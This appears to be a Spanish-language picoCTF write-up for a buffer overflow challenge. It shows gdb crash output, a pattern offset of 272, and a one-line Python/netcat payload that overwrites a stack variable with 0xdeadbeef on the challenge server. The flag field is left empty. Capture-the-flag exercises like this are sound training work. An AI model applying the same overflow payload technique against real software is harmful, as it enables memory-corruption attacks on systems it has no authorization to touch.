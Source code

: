 # Reto


## Descripcion
Clutter, clutter everywhere and not a byte to use.`nc mars.picoctf.net 31890`
## Pistas
analizamos el codigo y encontramos que el limite delimitado es 256 haci que hay que pasar una cantidad mayor a ese numero para romper el codigo
define SIZE 0x100  (hexadecimal)
usando gbd corremos el codigo pasando 300 caracteres y obtenemos lo siguiente

```bash
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000000004007c0 in main ()
RBP: 0x3425416525414925 ('%IA%eA%4')
RSP: 0x7fffffffde58 ("A%JA%fA%5A%KA%gA%6A%")
RIP: 0x4007c0 (<main+249>:      ret)
```

buscamos los offsets para ver en que poscicion ocurre el bloqueo
```bash
gdb-peda$ pattern offset $rbp
3757481366783084837 found at offset: 272

```

una vez sabido esto ejecutamos de manera normal para ver que direccion ocupamos sobrescribir
```bash
My room is so cluttered...
What do you see?
dasda
code == 0x0
code != 0xdeadbeef :(

```
creamos un comando que introdusca la direccion deseada "deadbef" y obtenemos la bandera
```bash
(python3 -c 'import sys; sys.stdout.write("A" * 264)'; echo -e '\xef\xbe\xad\xde') | nc mars.picoctf.net 31890
```


## Solucion

## Bandera
picoCTF{}
## Notas adicionales


## Referencias
